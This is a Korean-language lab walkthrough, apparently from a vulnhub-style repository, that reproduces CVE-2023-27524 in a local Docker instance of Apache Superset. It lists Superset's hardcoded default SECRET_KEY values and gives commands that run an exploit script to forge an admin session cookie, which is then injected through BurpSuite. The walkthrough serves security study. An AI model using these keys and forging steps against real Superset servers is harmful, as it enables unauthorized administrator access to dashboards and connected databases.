 ## Apache Superset Hardcoded JWT Secret Key Leads to Authentication Bypass (CVE-2023-27524)
Apache Superset은 시각적, 직관적, 대화형으로 설계된 오픈소스 데이터 탐색 및 시각화 플랫폼입니다.

Apache Superset에는 하드코딩된 JWT 비밀 키 취약점(CVE-2023-27524)이 포함되어 있습니다.
이 애플리케이션은 `SECRET_KEY`세션 쿠키에 서명하는 데 사용되는 기본값과 함께 제공됩니다. 
관리자가 이 기본 키를 변경하지 못하면 공격자는 유효한 세션 쿠키를 위조하고 관리자를 포함한 모든 사용자로 인증할 수 있습니다. 
이를 통해 Superset 대시보드, 연결된 데이터베이스에 대한 무단 액세스가 허용되고 잠재적으로 원격 코드 실행으로 이어질 수 있습니다.

- Ubuntu 24.04 환경에서 진행하였습니다.
### 환경 설정

```bash
# git clone --depth 1 https://github.com/{repositry주소}.git
git clone --depth 1 https://github.com/ggam-yong/ch-vulhub.git
cd ch-vulhub/superset/CVE-2023-27524
```

다음 명령을 실행하여 Apache Superset 2.0.1 서버를 시작합니다
```bash
docker compose up -d
```
---

### 취약점 재생산
![로그인페이지](login.png)

`firefox에서 http://127.0.0.1:8088` 에 접속합니다. 기본 로그인 자격 증명은 admin/vulhub입니다.

Superset이 다음의 하드코딩된 기본값 중 하나를 사용하기 때문에 취약점이 존재합니다 `SECRET_KEY`.

- `\x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h`(버전 < 1.4.1)
- `CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET`(버전 >= 1.4.1)
- `thisISaSECRET_1234`(배포 템플릿)
- `YOUR_OWN_RANDOM_GENERATED_SECRET_KEY`(선적 서류 비치)
- `TEST_NON_DEV_SECRET`(도커 컴포즈)

---

### 관리자 세션 쿠키 획득

[CVE-2023-27524.py](CVE-2023-27524.py)를사용하여 관리자 세션쿠키로 위조합니다. 이때 관리자 세션쿠키는 user_id 가 1입니다. 이 스크립트는 알려진 기본 비밀 키를 사용하여 세션 쿠키를 크랙하려고 시도합니다.
# Install dependencies
pip install -r requirements.txt

# Forge an administrative session (whose user_id is 1) cookie
python CVE-2023-27524.py --url http://127.0.0.1:8088 --id 1 --validate

![관리자 쿠키](cookie.png)

쿠키 값에 우의 JWT 토큰을 사용하면 `Cookie: eyJfdXNlcl9pZCI6MSwidXNlcl9pZCI6MX0.Z_...` Superset의 백엔드 엔드포인트에 액세스할 수 있습니다.

---

### BurpSuite

우분투 환경에서 BurpSuite와 chrome browser를 설치한 후 다음의 명령어를 통해 BurpSuiteCommunity를 실행해 줍니다. 


```bash
cd ~/BurpSuiteCommunity
./BurpSuiteCommunity
```
![변조전](guest.png)
![변조 후](admin.png)


요청의 Cookie: session 값을 획득한 값으로 위조하면 Superset의 백엔드 엔드포인트에 액세스할 수 있습니다.

![성공](backend.png)






